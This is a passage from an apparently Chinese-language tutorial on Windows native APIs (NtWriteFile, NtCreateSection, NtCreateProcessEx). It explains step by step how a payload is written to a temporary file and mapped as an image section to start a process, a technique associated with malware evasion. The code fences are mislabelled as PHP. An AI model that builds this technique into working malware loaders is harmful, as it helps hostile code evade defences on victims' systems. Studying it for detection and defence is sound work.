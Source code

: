 **FileHandle**要写入内容的文件的句柄  
**Event**写入操作完成后要设置状态的事件的句柄  
**ApcRoutine**保留参数NULL即可  
**ApcContext**保留参数NULL即可  
**IoStatusBlock**指向一个**IO\_STATUS\_BLOCK**结构的指针  
**Buffer**指向一个缓冲区的指针，缓冲区中存储了要写入的内容  
**Length**代表缓冲区的大小  
**ByteOffset**一个偏移量，指定了要从文件哪里开始写入  
**Key**填NULL即可

```php
IO_STATUS_BLOCK writeBlock = { 0 };
LARGE_INTEGER ByteOffset = {0};
status=NtWriteFile(hFile, NULL, NULL, NULL, &writeBlock, buf, bufSize, &ByteOffset, NULL);
```

这段代码主要作用是将payload写入到临时文件中，为给临时文件创建节做准备。


**NtCreateSection**定义

```php
__kernel_entry NTSYSCALLAPI NTSTATUS NtCreateSection(
  [out]          PHANDLE            SectionHandle,
  [in]           ACCESS_MASK        DesiredAccess,
  [in, optional] POBJECT_ATTRIBUTES ObjectAttributes,
  [in, optional] PLARGE_INTEGER     MaximumSize,
  [in]           ULONG              SectionPageProtection,
  [in]           ULONG              AllocationAttributes,
  [in, optional] HANDLE             FileHandle
);
```

- **SectionHandle**一个指针，用于接收此函数返回的节的句柄
- **DesiredAccess**对节的访问权限
- **ObjectAttributes**指向OBJECT\_ATTRIBUTES结构的指针
- **MaximumSize**节的最大大小
- **SectionPageProtection**节所在内存的属性
- **AllocationAttributes**节的属性
- **FileHandle**文件句柄，也就是要为哪一个文件创建一个节 ```php
    HANDLE hSection = NULL;
    status = NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, NULL, PAGE_READONLY, SEC_IMAGE, hFile);
    ```

代码主要作用是为临时文件在内存中创建一个节，也可以理解为把临时文件读取到内存中。


**NtCreateProcessEx**定义

```php
typedef NTSTATUS(NTAPI* pNtCreateProcessEx)(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK  DesiredAccess,
    IN POBJECT_ATTRIBUTES   ObjectAttributes,
    IN HANDLE   ParentProcess,
    IN ULONG    Flags,
    IN HANDLE   SectionHandle,
    IN HANDLE   DebugPort,
    IN HANDLE   ExceptionPort,
    IN BOOLEAN  InJob
    );
```
